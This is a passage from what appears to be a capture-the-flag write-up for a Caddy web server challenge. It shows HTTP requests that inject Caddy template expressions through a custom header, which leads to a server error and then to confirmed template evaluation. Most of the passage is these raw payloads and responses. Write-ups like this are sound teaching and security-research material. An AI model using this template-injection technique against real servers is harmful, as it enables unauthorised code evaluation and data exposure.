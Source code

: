 ```
  ],
  "My-Header": [
    "$FLAG"
  ]
}
```

Not really.. But maybe it should be in curly braces so that evaluates instead of being passed as a string? Let's try it:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: \{\{ $FLAG \}\}

```

Response:

```
HTTP/2 500 Internal Server Error
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 0
Date: Sat, 15 Mar 2025 13:16:59 GMT

```

Something triggered an internal server error! Let's see, if we can at least execute some caddy directives like `cat` _(raw `"` quotes result in internal server error so I used backticks instead)_:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: \{\{ cat `hi` \}\}

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 120
Date: Sat, 15 Mar 2025 13:18:42 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "2"
  ],
  "My-Header": [
    "hi"
  ]
}
```
